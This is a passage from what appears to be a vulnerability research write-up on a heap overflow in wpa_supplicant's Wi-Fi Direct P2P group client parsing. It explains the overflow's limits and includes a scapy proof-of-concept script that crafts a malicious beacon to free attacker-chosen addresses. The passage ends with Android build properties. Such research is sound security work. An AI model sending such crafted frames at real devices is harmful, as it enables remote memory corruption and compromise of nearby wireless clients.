 The only constraint here is that the length of `sec_dev_types` cannot be larger than the remaining data in the buffer and the length of the data for each client needs to be less than 256 as it must fit in a `u8`. This puts some limits on what can be done with the vulnerability as it means that it can’t be used to leak data after the end of the controlled buffer, and it has a limited range to overflow. The group client info needs to include 23 bytes before the secondary devices, and a minimum of 4 for a zero length device name  combined with the 128 bytes of secondary device types gives 101 bytes of overflow. There are 4 bytes between `wps_sec_dev_type_list` and `wps_vendor_ext`, the 4 bytes of `size_t wps_sec_dev_type_list_len`. Ultimately this allows the attacker to only overflow into `struct wpabuf *wps_vendor_ext[P2P_MAX_WPS_VENDOR_EXT], and struct wpabuf *wfd_subelems`. The only time these pointers are used after the overflow is when they are freed when the device is lost. Therefore the overflow can only be used to free up to 11 arbitrary addresses at a time.

I figured most of this out later, as initially I was focused on simply reproducing the crash from this overflow. The issue was discovered by [OSS-Fuzz libFuzzer](https://bugs.chromium.org/p/oss-fuzz/issues/detail?id=27269) and the only artifact was a raw dump of bytes with no information related to where they were to be used as input. 

There was no public additional context given to help actually reproduce it. Eventually after reading much more of the source I discovered that I could reproduce the crash by modifying `p2p_group_build_probe_resp_ie` in the attackers wpa_supplicant in order to return a `wpabuf` containing only these bytes. With the help of Wireshark I was able to understand the meaning of the data and eventually created a minimal crash PoC Python script using scapy: 

```
from scapy.all import *

iface = 'wlp4s0mon'           # interface in monitor mode
target = 'ac:04:0b:e9:30:69'  # target MAC address
mac = RandMAC()               # (fake) mac address of source 

dot11 = Dot11FCS(addr1=target, addr2=mac)
beacon = Dot11Beacon(cap='ESS+privacy')
essid = Dot11Elt(ID='SSID', info='DIRECT-XX') # DIRECT- SSID for WFD
rates = Dot11Elt(ID='Rates', info=b"\x48")    # rate of monitor mode iface
rsn = Dot11Elt(ID='RSNinfo', info=(
    b"\x01\x00"          # RSN Version 1
    b"\x00\x0f\xac\x02"  # Group Cipher Suite : 00-0f-ac TKIP
    b"\x02\x00"          # 2 Pairwise Cipher Suites (next two lines)
    b"\x00\x0f\xac\x04"  # AES Cipher
    b"\x00\x0f\xac\x02"  # TKIP Cipher
    b"\x01\x00"          # 1 Authentication Key Management Suite (line below)
    b"\x00\x0f\xac\x02"  # Pre-Shared Key
    b"\x00\x00"))        # RSN Capabilities (no extra capabilities)

sec_devs = 0x13 # number of secondary device types
group = (
    b"AAAAAA" +                    # p2p client device addr
    b"BBBBBB" +                    # p2p client interface addr
    b"\xff" + b"\x01\x88" +        # capabilities, config methods
    b"EEEEEEEE" +                  # primary dev type
    struct.pack("<B", sec_devs) +  # secondary dev type count
    b"\x00"*(sec_devs*8-12) +      # nulls to fill up sec devs
    b"AAAAAAAA" +                  # address to be freed
    b"\x00\x00\x00\x00" +          # 4 nulls for padding
    b"\x10\x11\x00\x00")           # empty device name 

group = struct.pack("<B", len(group)) + group # p2p group info 
p2p = Dot11EltVendorSpecific(oui=0x506f9a, info=(
    b"\x09\x03" +                    # p2p identifier
    b"\x06\x00" + b"CCCCCC" +        # p2p device id len, id
    b"\x0e" +                        # p2p client info identifier
    struct.pack("<H", len(group)) +  # total length of group client 
    group))                          # group client data

# assemble and send packet
```

[ro.build.version.release]: [7.0]
[ro.build.version.sdk]: [24]
[ro.build.version.security_patch]: [2019-08-05]